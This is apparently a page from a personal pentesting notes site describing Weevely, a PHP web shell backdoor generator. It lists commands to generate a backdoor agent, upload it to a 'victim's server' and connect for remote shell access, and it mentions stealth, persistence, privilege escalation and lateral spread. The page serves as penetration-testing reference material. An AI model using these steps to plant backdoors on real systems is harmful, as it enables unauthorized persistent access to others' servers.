

repository: amandaguglieri/hackinglife · page: weevely/index.html · generator: mkdocs

---
title: Weevely - A PHP webshell backdoor generator
draft: false
TableOfContents: true
tags:
  - pentestingç
  - web
  - pentesting
  - enumeration
---
# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>


```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

+ Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.
+ Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.
+ Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.
